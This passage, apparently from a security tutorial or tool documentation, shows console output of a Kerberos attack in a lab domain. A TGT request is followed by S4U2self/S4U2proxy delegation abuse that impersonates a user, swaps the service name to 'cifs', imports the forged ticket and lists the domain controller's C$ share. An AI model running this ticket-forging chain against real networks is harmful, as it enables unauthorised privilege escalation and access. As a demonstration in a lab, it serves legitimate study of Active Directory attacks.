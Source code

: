 ```
[*] Connecting to 192.168.52.100:88
[*] Sent 230 bytes
[*] Received 1377 bytes
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIE+jCCBPagAwIBBaEDAg...(snip)...

[*] Action: S4U

[*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
[*] Building S4U2self request for: 'TESTLAB.LOCALpatsy'
[*]   Impersonating user 'dfm.a' to target SPN 'LDAP/primary.testlab.local'
[*]   Final ticket will be for the alternate service 'cifs'
[*] Sending S4U2self request
[*] Connecting to 192.168.52.100:88
[*] Sent 1437 bytes
[*] Received 1574 bytes
[+] S4U2self success!
[*] Building S4U2proxy request for service: 'LDAP/primary.testlab.local'
[*] Sending S4U2proxy request
[*] Connecting to 192.168.52.100:88
[*] Sent 2618 bytes
[*] Received 1798 bytes
[+] S4U2proxy success!
[*] Substituting alternative service name 'cifs'
[*] base64(ticket.kirbi):

      doIGujCCBragAwIBBaE...(snip)...

[*] Action: Import Ticket
[+] Ticket successfully imported!

C:Temptickets&gt;dir \primary.testlab.localC$
 Volume in drive \primary.testlab.localC$ has no label.
 Volume Serial Number is A48B-4D68

 Directory of \primary.testlab.localC$

03/05/2017  05:36 PM    &lt;DIR&gt;          inetpub
08/22/2013  08:52 AM    &lt;DIR&gt;          PerfLogs
04/15/2017  06:25 PM    &lt;DIR&gt;          profiles
08/28/2018  12:51 PM    &lt;DIR&gt;          Program Files
08/28/2018  12:51 PM    &lt;DIR&gt;          Program Files (x86)
08/23/2018  06:47 PM    &lt;DIR&gt;          Temp
08/23/2018  04:52 PM    &lt;DIR&gt;          Users
08/23/2018  06:48 PM    &lt;DIR&gt;          Windows
               8 Dir(s)  40,679,706,624 bytes free
```

### <a class="reference-link" name="ptt"></a>ptt
